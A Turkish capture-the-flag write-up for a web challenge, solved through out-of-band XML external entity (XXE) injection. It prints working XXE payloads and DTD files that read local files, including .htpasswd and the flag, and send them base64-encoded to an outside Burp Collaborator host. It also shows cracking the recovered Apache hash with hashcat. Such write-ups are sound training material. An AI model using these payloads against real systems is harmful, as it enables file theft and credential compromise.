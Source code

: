 ### At (Web 300)

![soru](soru.png)

Soruda bize sadece bir IP adresi veriliyor. Bu IP adresini ziyaret ettiğimde bir form ile karşılaştım.


![adim1](adim_1.png)


Formu doldurup gönderdiğim isteği Burp Suite'in Repeater aracı ile açıp isteği tekrarladım ve bunu yaptığımda **Sorry, this email is already registered!** mesajı ile karşılaştıım. Kısaca farklı emailler ile isteği tekrarladım ancak mesaj hiç değişmedi. Sonra kısaca her parametreye SQL Injection denemesi yaptım ancak bu da hiçbir sonuç vermedi. İsteğin XML olarak gitmesi akıllara direk XXE Injection(XML External Entity Injection) açığını getirmeli. XML parserlarının bir özelliğinden dolayı oluşan bu güvenlik açığı birçok büyük firmada daha önce bulunmuş ve rapor edenlere binlerce dolar kazandırmıştır. Örnek olarak Google ve Facebookta bulunmuş XXE açıklarının İngilizce write-up'larını okuyabilirsiniz.

Google XXE (Ödül $10,000): https://blog.detectify.com/2014/04/11/how-we-got-read-access-on-googles-production-servers/  
Facebook XXE (Ödül $30,000): https://www.ubercomp.com/posts/2014-01-16_facebook_remote_code_execution


![adim2](adim_2.png)   


Ben XXE açığını kontrol etmek için şu listedeki payloadları kullanıyorum: https://gist.github.com/staaldraad/01415b990939494879b4 

Bu XXE payload listesinden biraz deneme yanılma yoluyla çalışan bir payload buldum:


![adim7](adim_7.png)   


XXE başlı başına bir konu olduğu için bu yazıda XXE'yi açıklamayacağım. Ancak kullandığım Out-of-Band XXE payloadunun ne yaptığını kısaca anlatayım:

**XXE Payload (HTTP isteğiyle birlikte gönderilecek)**
```
1: <?xml version="1.0" encoding="UTF-8"?>
2: <!DOCTYPE r [
3: <!ELEMENT r ANY >
4: <!ENTITY % sp SYSTEM "http://xx.xx.xx.xx:8000/ex.dtd">
5: %sp;
6: %param1;
7: %exfil;
8: ]>
```

1) Dördüncü satırda `sp` adında bir XML Entity tanımı yapılıyor. Bu Entity başka bir IP adresindeki DTD dosyasına link ediyor. DTD dosyası dediğimiz bildiğimiz XML dosyası. 

2) Beşinci satırda bu tanımı yapılan Entity çağırılıyor. Tıpkı fonksiyon gibi düşünün. Tanımını yaptığınız fonksiyonu çağırmazsanız o fonksiyon hiçbir işe yaramaz.

3) XML parser verilen IP adresindeki DTD dosyasını yükleyip parse ediyor.

4) Altıncı ve 7. satırlarda, yüklenen DTD içinde tanımlanmış olan `param1` ve `exfil` Entityleri çağırılıyorlar. Fonksiyon benzetmesinden devam edersek, DTD dosyasında tanımlı fonksiyonlar çağırılıyor diyebiliriz. Bu sayede XML parser DTD'yi import ettiğinde `param1` ve `exfil` Entitylerine erişebilecek.



**http://xx.xx.xx.xx:8000/ex.dtd Dosyası (Sistemde zafiyet bulunan XML parser bu dosyayı çağırıyor)**:

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">   
```

1) Birinci satırda `data` Entity'si `c:/windows/win.ini` dosyasına link ediyor. Yani `data` fonksiyonu çağırıldığında `c:/windows/win.ini` dosyasının base64 encode edilmiş içeriğini dönecek gibi düşünebilirsiniz.

2) İkinci satırda `param1` Entity'si `exfil` adında başka bir Entity tanımlıyor ve bu `exfil` Entity'si `http://x.x.x.x:443/` adresine `data` Entity'sinin içeriğini(Base64 encode edilmiş `c:/windows/win.ini` dosyası) gönderiyor.
![teambios](team-bios.png)  


Bu aşamadan sonra `c:/windows/win.ini` dosyasını okumak için aşağıdaki şekilde istek gönderdim:

![adim9](adim_9.png) 



**ex.dtd'yi barındıran sunucum:**

![adim8](adim_8.png) 


**XXE zafiyeti bulunan sunucu, Burp'ün sunucusuna `c:/windows/win.ini` dosyasını Base64 encode edip gönderiyor:**

![adim9](adim_9.png) 



Bu aşamadan sonra sistemde bütün dosyaları okuyabiliyordum. Ancak bu aşamada takıldım çünkü flag'in nerde saklandığını bulamadım. Ta ki sitenin içinde biraz gezip `js/` klasörünün altındaki `files.txt` dosyasını bulana kadar.  
![adim6](adim_6.png)


Burada bize flag'in `C:\Windows` dizininde olduğunu ve flagin isminin `flag_\d{4}[a-zA-Z]{4}\.txt` Regular Expression'ınına uyucağını söylüyordu. Bütün olasılıkları Brute Force mantıklı değildi. Biraz daha araştırma yapınca sunucunun `/flag` altdizinin HTTP Authentication kullandığını gördüm.

![adim4](adim_4.png)


`/flag` dizinine girebilmek için HTTP Authentication kullanıcı adı ve parolasına ihtiyaç vardı. HTTP Authentication parolaları Apache sunucularda `.htpasswd` dosyasında saklanır. XXE zafiyetini kullanarak bu dosyayı aynı yukarıda `win.ini` dosyasını okuduğumuz gibi okuyabiliriz.

**ex.dtd dosyasının içeriğini aşağıdaki gibi değiştirdim .htaccess'i okuyabilmek için:**
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/xampp/htdocs/.htpasswd">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://qmgtfsyjox8fdh4q8ug2io8kvb12pr.burpcollaborator.net/?%data;'>">
``` 

`.htaccess` dosyasının içeriği:
![adim11](adim_11.png)

HTTP Authentication için kullanıcı adı: `stalker` ve hashlenmiş parola: `$apr1$izrgXKZ1$0fVgd1MIioC14JG6VYwTw/`. Bu parolanın hangi hash fonksiyonu ile hashlendiğini araştırdım ve Apache MD5 diye bir format buldum. Bu formatı cracklemek için Hashcat'i hash türünü 1600 olarak seçerek kullandım. Tabii  dictionary olarak CTFlerin olmazsa olmazı rockyou.txt'yi kullandım.

```
hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt --force

```  

**Sonuç:**

![adim12](adim_12.png)

Kullanıcı adını `stalker` ve parolayı `gangstagangsta` olarak girdiğimizde yine bir sürprizle karşılaştım.

![adim13](adim_13.png)

Bize flag yerine ismi `flag_3289erpd.txt.jpg` olan bir resim dönülüyor. Biraz kafamı kaşıdıktan sonra `C:/Windows/` dizini altındaki `flag_\d{4}[a-zA-Z]{4}\.txt` formatında bir flag olduğu aklıma geldi. Artık flag'in ismi de elimizde olduğuna göre hemen XXE zafiyetini kullanarak okuyabiliriz flag dosyasını.

**ex.dtd dosyasının içeriğini aşağıdaki gibi değiştirdim C:/windows/flag_3289erpd.txt'yi okuyabilmek için:**
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=C:/windows/flag_3289erpd.txt">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://qmgtfsyjox8fdh4q8ug2io8kvb12pr.burpcollaborator.net/?%data;'>">
``` 

![flag](flag.png)



Bence soru çok eğlenceliydi. Hazırlayan kişinin ellerine sağlık.

